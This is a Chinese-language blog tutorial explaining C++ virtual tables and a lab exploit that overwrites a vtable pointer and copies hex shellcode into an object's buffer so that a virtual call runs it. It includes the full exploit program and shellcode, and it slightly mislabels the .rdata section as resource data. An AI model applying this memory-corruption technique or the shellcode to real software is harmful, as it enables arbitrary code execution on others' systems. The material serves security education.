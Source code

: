 ```yaml
---
title: 攻击C++的虚函数
date: 2017-07-01 18:23:16
categories: 安全技术
tags: [windows, c++]
---
```


### C++简介

<b>理解虚函数和虚表</b>
1. C++类的成员函数声明时，若使用关键字virtual进行修饰，则被称为虚函数
2. 一个类中可能有多个虚函数
3. 虚函数的入口地址统一保存在虚表(Vtable)之中
4. 对象在使用虚函数时，首先通过虚表指针找到虚表，然后从虚表中取出最终的函数入口地址进行调用

5. <font color=#f00>虚表指针保存在对象的内存空间中，紧接着虚表指针的是其他成员变量</font>

6. 虚函数只有通过对象指针的引用才能显示其动态调用的特性。

### C++虚函数的利用

实验代码：
<pre><code>
#include "windows.h"
#include "iostream.h"

char shellcode[] =
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x50\xAE\x42\x00";		// set fake virtual function pointer

class Failwest
{
public:
	char buf[200];
	virtual void test(void)
	{
		cout&lt;&lt;"Class Vtable::test()"&lt;&lt;endl;
	};
};

Failwest overflow, *p;

void main(void)
{
	char *p_vtable;
	p_vtable = overflow.buf - 4;		//point to virtual table
	// reset fake virtual table to 0x004088cc
	// the address mat need to ajusted via runtime debug
	__asm int 3;
	p_vtable[0] = 0x00;
	p_vtable[1] = 0xAF;
	p_vtable[2] = 0x42;
	p_vtable[3] = 0x00;
	strcpy(overflow.buf, shellcode);	// set fake virtual function pointer
	p = &overflow;
	p->test();
}
</code></pre>

C++虚函数利用原理图：
![C++虚函数利用原理图](/images/2017-07-01/vtable.jpg)

首先需要知道的是：
* idata: 明显是一个Imports函数的代码段，这里集中所有外部函数地址，代码中会先跳到该地址后再执行，PE文件加载器在开始会获取真实的函数地址来修补idata段中的函数地址。
* data: 这个段存放程序的全局数据、全局常量等。
* rdata: 名字上看就是资源数据段，程序用到什么资源数据都在这里，资源包括你自己封包的，也包括开发工具自动封包的。

所以我们应该在data段中找到自己需要的实验的全局变量

<font color=#f00>局部变量在栈中</font>


得到shellcode起始地址：0x0042AE50
shellcode结束地址：0x0042AF00

### 实验结果

![实验结果](/images/2017-07-01/result1.jpg)